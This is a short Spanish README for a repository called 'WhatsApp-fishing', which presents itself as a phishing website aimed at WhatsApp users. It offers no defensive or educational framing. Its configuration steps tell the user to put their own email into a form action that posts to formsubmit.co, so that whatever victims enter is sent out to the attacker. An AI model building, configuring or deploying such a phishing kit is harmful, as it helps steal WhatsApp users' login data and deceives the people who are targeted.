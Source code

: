 # WhatsApp-fishing
WhatsApp_fishing web

## website para fishing para Whatsapp

# requerimientos

> no se requiere ningún tipo de plugin o extensión

# configuración 

> configuración de envío de datos

> efitar la sección de form donde se encuentra el username para remplazar por su correo
>
> form action="https://formsubmit.co/username@gmail.com" method="POST"
